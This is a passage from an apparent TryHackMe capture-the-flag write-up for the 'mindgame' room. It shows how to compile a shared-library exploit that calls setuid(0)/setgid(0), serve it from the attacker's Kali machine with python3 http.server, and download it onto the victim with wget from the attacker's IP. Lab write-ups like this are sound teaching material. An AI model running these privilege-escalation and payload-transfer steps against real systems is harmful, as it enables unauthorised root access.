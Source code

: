 Compile the binary as following:

```
┌──(kali㉿kali)-[~/TryHackMe/mindgame]
└─$ gcc -fPIC -o exploit.o -c exploit.c
exploit.c: In function ‘bind’:
exploit.c:4:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    4 |     setuid(0); setgid(0);
      |     ^~~~~~
exploit.c:4:16: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setuid(0); setgid(0);
      |                ^~~~~~

┌──(kali㉿kali)-[~/TryHackMe/mindgame]
└─$ gcc -shared -o exploit.so -lcrypto exploit.o

┌──(kali㉿kali)-[~/TryHackMe/mindgame]
└─$ ls -l
total 24
-rw-r--r-- 1 kali kali   189 Sep 22 07:51 exploit.c
-rw-r--r-- 1 kali kali  2064 Sep 22 07:51 exploit.o
-rwxr-xr-x 1 kali kali 15712 Sep 22 07:52 exploit.so
```

   <p class="message">
   💡 Just ignore the WARNING message until the binary is successfully compiled and the output appears.

   </p>

Transfer the exploit file `.so` to the victim machine:

```
┌──(kali㉿kali)-[~/TryHackMe/mindgame]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.214.91 - - [22/Sep/2023 07:53:49] "GET /exploit.so HTTP/1.1" 200 -
```

```
$ pwd
pwd
/home/mindgames/webserver
$ ls -la
ls -la
total 7032
drwxrwxr-x 3 mindgames mindgames    4096 May 11  2020 .
drwxr-xr-x 7 mindgames mindgames    4096 Sep 22 11:45 ..
drwxrwxr-x 2 mindgames mindgames    4096 May 11  2020 resources
-rwxrwxr-x 1 mindgames mindgames 7188315 May 11  2020 server
```

```
$ wget http://10.9.63.75:8000/exploit.so
wget http://10.9.63.75:8000/exploit.so
--2023-09-22 11:57:19--  http://10.9.63.75:8000/exploit.so
Connecting to 10.9.63.75:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15712 (15K) [application/octet-stream]
Saving to: ‘exploit.so’

exploit.so          100%[===================>]  15.34K  83.6KB/s    in 0.2s

2023-09-22 11:57:19 (83.6 KB/s) - ‘exploit.so’ saved [15712/15712]

$ ls -l
ls -l
total 7040
```